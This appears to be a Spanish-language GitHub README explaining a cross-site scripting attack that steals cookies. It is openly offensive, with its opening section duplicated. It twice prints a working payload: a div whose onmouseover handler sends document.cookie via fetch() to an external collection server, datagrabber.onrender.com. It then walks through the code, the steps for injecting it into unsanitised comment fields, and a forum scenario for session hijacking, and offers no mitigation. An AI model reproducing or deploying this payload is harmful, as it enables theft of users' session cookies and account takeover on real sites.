 ### Documentación para inyección de código JavaScript usando `onmouseover`

#### Descripción:

Este documento describe cómo realizar una inyección de código JavaScript mediante el evento `onmouseover` en una página web vulnerable. El objetivo es interceptar y enviar cookies del usuario a un servidor externo cuando el usuario pase el ratón sobre un elemento HTML.

#### Objetivo:

El objetivo de esta técnica es aprovechar una vulnerabilidad de **Cross-Site Scripting (XSS)** para robar cookies o información sensible del usuario. Esta información puede ser enviada a un servidor controlado por el atacante para su posterior uso, como la suplantación de identidad o el secuestro de sesiones.

```javascript
<div onmouseover="fetch('https://datagrabber.onrender.com/grab?data=' + encodeURIComponent(document.cookie))">
    Pasa el ratón por aquí
</div>

```
### Documentación para inyección de código JavaScript usando `onmouseover`

#### Descripción:

Este documento describe cómo realizar una inyección de código JavaScript mediante el evento `onmouseover` en una página web vulnerable. El objetivo es interceptar y enviar cookies del usuario a un servidor externo cuando el usuario pase el ratón sobre un elemento HTML.

#### Objetivo:

El objetivo de esta técnica es aprovechar una vulnerabilidad de **Cross-Site Scripting (XSS)** para robar cookies o información sensible del usuario. Esta información puede ser enviada a un servidor controlado por el atacante para su posterior uso, como la suplantación de identidad o el secuestro de sesiones.

#### Código para la inyección:

```bash
`<div onmouseover="fetch('https://datagrabber.onrender.com/grab?data=' + encodeURIComponent(document.cookie))">     Pasa el ratón por aquí </div>`
```

#### Desglose del código:

1. **Elemento interactivo (`<div>`)**: El código inyecta un `<div>` en la página web que ejecutará JavaScript cuando el usuario pase el ratón por encima.
    
2. **Evento `onmouseover`**: El atributo `onmouseover` se activa cuando el usuario pasa el ratón sobre el área del elemento `<div>`. Este evento puede ejecutarse en diferentes elementos como `<img>`, `<a>`, `<button>`, entre otros.
    
3. **`fetch()`**: Se realiza una solicitud HTTP utilizando la función `fetch()`. Esta función envía una petición GET al servidor externo con las cookies del documento (obtenidas a través de `document.cookie`).
    
4. **`encodeURIComponent(document.cookie)`**: La función `encodeURIComponent()` se usa para codificar las cookies del usuario de manera segura para ser enviadas a través de la URL. Esto evita problemas con caracteres especiales en las cookies que podrían romper la URL.
    
5. **URL maliciosa**: En este caso, la información sensible (las cookies) se envía a `https://datagrabber.onrender.com/grab`, un servidor controlado por el atacante. El servidor podría registrar las cookies y utilizarlas para llevar a cabo ataques adicionales, como el secuestro de sesiones.
    

#### Ejecución:

1. El atacante encuentra una página web vulnerable que no valida o escapa adecuadamente el código introducido por el usuario (por ejemplo, comentarios o campos de texto).
    
2. El atacante inyecta el código anterior en un campo de entrada de usuario que se renderiza directamente como HTML en la página web.
    
3. Cuando un usuario pasa el ratón sobre el elemento inyectado (en este caso, el `<div>`), el navegador ejecuta el código `onmouseover`, lo que envía una solicitud HTTP con las cookies del usuario al servidor externo.
    

#### Ejemplo de escenario:

Un atacante puede aprovecharse de un foro o sección de comentarios donde los datos introducidos por los usuarios no se validan adecuadamente. Si el atacante inyecta el código descrito en el campo de comentarios, cualquier otro usuario que pase el ratón por encima del comentario verá que sus cookies se envían al servidor del atacante.
